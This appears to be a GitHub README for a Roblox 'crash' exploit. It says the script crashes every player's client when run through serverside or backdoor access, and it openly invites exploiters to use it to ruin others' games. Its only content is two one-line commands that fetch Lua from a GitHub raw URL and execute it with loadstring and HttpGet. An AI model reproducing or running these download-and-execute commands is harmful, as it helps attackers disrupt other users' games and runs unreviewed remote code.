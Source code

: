 # Roblox-Crash-Lua
This is a shortened code of the Roblox Lua Crash, this exploit needs Serverside to kick the other players. This will crash everybody's roblox client. Also, you backdoor exploiters, you can get it and ruin other's fun.

#
#
#
# Codes:
#
#
The Script String is:

# loadstring(game:HttpGet(('https://raw.githubusercontent.com/IvanTheProtogen/Roblox-Crash-Lua/main/source.lua'),true)()

Second Script String is:

# loadstring(game:HttpGet("https://raw.githubusercontent.com/IvanTheProtogen/Roblox-Crash-Lua/main/source.lua"))()
